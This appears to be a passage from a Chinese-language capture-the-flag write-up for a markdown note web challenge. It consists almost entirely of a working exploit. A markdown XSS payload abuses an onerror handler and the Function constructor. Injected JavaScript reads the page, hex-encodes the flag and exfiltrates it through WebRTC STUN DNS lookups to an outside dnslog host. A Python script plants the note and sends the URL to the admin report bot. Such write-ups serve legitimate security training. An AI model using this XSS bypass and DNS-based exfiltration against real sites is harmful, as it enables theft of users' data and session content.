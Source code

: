 第二步，觸發以下 JavaScript，由於 domain 有小寫限制，與 64 個字上線，因此先轉為 hex 與切片。

```
fetch('/').then(res => res.text()).then(res => {{ const chunks = (s => {{ let hex = '', match = s.match('CGGC.*')[0]; for (let i = 0; i < match.length; i++) hex += match.charCodeAt(i).toString(16).padStart(2, '0'); return [...Array(Math.ceil(hex.length / 32))].map((_, i) => hex.slice(i * 32, i * 32 + 32)); }})(res); chunks.forEach(chunk => {{const stunServer = `stun:${{chunk}}.{dnslog_server}`; console.log(stunServer); const pc = new RTCPeerConnection({{iceServers: [{{'urls': stunServer}}]}}); pc.createDataChannel('d'); pc.setLocalDescription();}}); }});
```

完整 payload:
```python
import requests
import re
import base64


url = "http://10.99.210.103:8024/"
dnslog_server = "u9lh0wo.q.dnsl0g.net"
# https://dnsl0g.net/

s = requests.Session()
s.post(
    url,
    data={
        "note": "![ouo[](2)](onerror=a=`'`+location;[]['constructor']['constructor']`_${a}```  src=x))"
    },
)

exp_note_id = re.findall(r'href="/note/(.*?)"', s.get(url).text)[0]

payload = f"fetch('/').then(res => res.text()).then(res => {{ const chunks = (s => {{ let hex = '', match = s.match('CGGC.*')[0]; for (let i = 0; i < match.length; i++) hex += match.charCodeAt(i).toString(16).padStart(2, '0'); return [...Array(Math.ceil(hex.length / 32))].map((_, i) => hex.slice(i * 32, i * 32 + 32)); }})(res); chunks.forEach(chunk => {{const stunServer = `stun:${{chunk}}.{dnslog_server}`; console.log(stunServer); const pc = new RTCPeerConnection({{iceServers: [{{'urls': stunServer}}]}}); pc.createDataChannel('d'); pc.setLocalDescription();}}); }});"
payload = f"#';eval(atob('{base64.b64encode(payload.encode()).decode()}'))"
payload = "http://markdown/note/" + exp_note_id + payload
print(payload)

s.post(
    url + "report",
    data={
        "url": payload,
    },
)

# you will get flag in dns log
```
